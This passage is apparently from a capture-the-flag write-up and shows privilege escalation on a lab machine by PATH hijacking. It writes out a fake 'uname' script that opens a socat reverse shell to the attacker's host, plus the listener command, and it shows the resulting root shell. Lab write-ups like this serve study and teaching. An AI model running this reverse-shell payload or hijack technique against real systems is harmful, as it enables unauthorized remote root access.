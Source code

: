 {% highlight plaintext %}
jkr@writeup:~$ whereis nc
nc:
jkr@writeup:~$ whereis netcat
netcat:
jkr@writeup:~$ whereis ncat
ncat:
{% endhighlight %}

I _could_ download the netcat binary from my Kali box, but it's quieter to live off the land and use tools already provided on the box. `socat` works as a solid alternative.

{% highlight plaintext %}
jkr@writeup:~$ whereis socat
socat: /usr/bin/socat /usr/share/man/man1/socat.1.gz
{% endhighlight %}

I use `vi` to create a new `uname` binary that initiates a socat reverse shell. Here's the script:

{% highlight bash %}
#!/bin/bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.31:443
{% endhighlight %}

I make it executable as well.

{% highlight plaintext %}
jkr@writeup:/usr/local/sbin$ chmod +x uname
{% endhighlight %}

Before triggering the command, I set up a socat listener on my Kali's port 443.

{% highlight plaintext %}
root@kali:~# socat file:`tty`,raw,echo=0 tcp-listen:443
{% endhighlight %}

I exit and re-enter the SSH session to trigger the `uname` command.

{% highlight plaintext %}
jkr@writeup:/usr/local/sbin$ exit
logout
Connection to 10.10.10.138 closed.
root@kali:~# ssh jkr@10.10.10.138                                                                                                                                                              
jkr@10.10.10.138's password:
{% endhighlight %}

And my listener has a root shell.

{% highlight plaintext %}
root@kali:~# socat file:`tty`,raw,echo=0 tcp-listen:443
root@writeup:/# whoami
root
{% endhighlight %}